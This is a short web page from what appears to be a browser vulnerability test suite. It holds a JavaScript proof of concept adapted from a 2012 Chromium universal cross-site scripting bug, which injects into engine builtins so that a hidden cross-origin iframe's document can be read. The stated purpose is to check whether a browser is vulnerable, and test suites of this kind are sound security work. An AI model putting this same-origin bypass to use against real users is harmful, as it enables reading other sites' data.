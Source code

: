 ```yaml
---
layout: default
title: SOP Bypass - Testcase 18
permalink: /sop/new/18
---
```


Based upon Chromium UXSS (2012)

<script>
function myfunction() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.src = "https://web.archive.org/web/20180831134346/http://www.bing.com/";
    frame.width = '0';
    frame.onload = function() {
        Function("}, (builtins = this), function() {}");
        originalInstantiate = builtins.Instantiate;
        builtins.DefineOneShotAccessor(builtins, "Instantiate", function() {});
        flag = 0;
        template = null;
        builtins.Instantiate = function(x, y) {
            if (flag) {
                doc = frame.contentWindow.document;
                alert(doc.domain);
                flag = 0;
            } else if (!template)
                template = x;
            return originalInstantiate(x, y);
        };
        document.implementation;
        flag = 1;
        builtins.ConfigureTemplateInstance(frame.contentWindow, template);
    }
}
</script>

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">

**Note:**
If page displays an alert box where document.domain property is pointing to bing.com, your browser is vulnerable to SOP bypass.

